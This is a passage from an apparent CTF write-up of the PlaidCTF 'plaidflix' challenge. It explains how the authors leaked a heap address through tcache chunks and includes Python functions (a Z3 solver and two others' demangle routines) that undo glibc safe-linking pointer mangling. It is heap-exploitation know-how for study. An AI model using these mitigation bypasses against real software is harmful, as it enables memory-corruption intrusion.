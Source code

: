To obtain a heap leak, we added 2 friends, shared a new movie with the 2nd
friend, and then removed both friends.  This sent both of the friend chunks
into tcache, setting their forward and back pointers to heap addresses.  We
then can show a movie to read from the 2nd friend chunk's forward pointer.  As
stated earlier, this heap pointer was encoded with safe linking and we needed
to decode it to a valid address to obtain a valid heap address leak.

### Safe Linking

To reveal the real heap pointer, we decided to use a SMT solver using two
conditions. Since we know the higher bits of the address, our first constraint
was to verify the resulting pointer to match these high bits. For our second
constraint, we verify the "safe link" form of the pointer is our leak.

The function below will return the valid address when given a safe linked
value:  
```python  
def unsafe_link(e):  
   high_e = e & 0xfffffff000000000  
   x = BitVec('x',64)  
   s = Solver()  
   s.add(x & 0xfffffff000000000 == high_e)  
   s.add(x ^ (x >> 12) == e)  
   s.check()  
   return s.model()[x].as_long()  
```

From this function, we can pass the leaked safe link value and obtain a valid
heap leak.

After the CTF ended, we discovered other solutions that are likely more
efficient:

hkraw's -
[https://gist.github.com/hkraw/0576a28c5436734d0fbe6d8ddd378143#file-plaidctf-
plaidflix-
py-L8](https://gist.github.com/hkraw/0576a28c5436734d0fbe6d8ddd378143#file-
plaidctf-plaidflix-py-L8)  
```python  
def demangle(obfus_ptr):  
   o2 = (obfus_ptr >> 12) ^ obfus_ptr  
   return (o2 >> 24) ^ o2  
```

MaherAzzou1zi's -
[https://github.com/MaherAzzouzi/LinuxExploitation/blob/master/PlaidCTF-
plaidflix/solve.py#L83](https://github.com/MaherAzzouzi/LinuxExploitation/blob/master/PlaidCTF-
plaidflix/solve.py#L83)  
```python  
def defu(p):  
   d = 0  
   for i in range(0x100,0,-4):  
     pa = (p & (0xf << i )) >> i  
     pb = (d & (0xf << i+12 )) >> i+12  
     d |= (pa ^ pb) << i  
   return d  
```
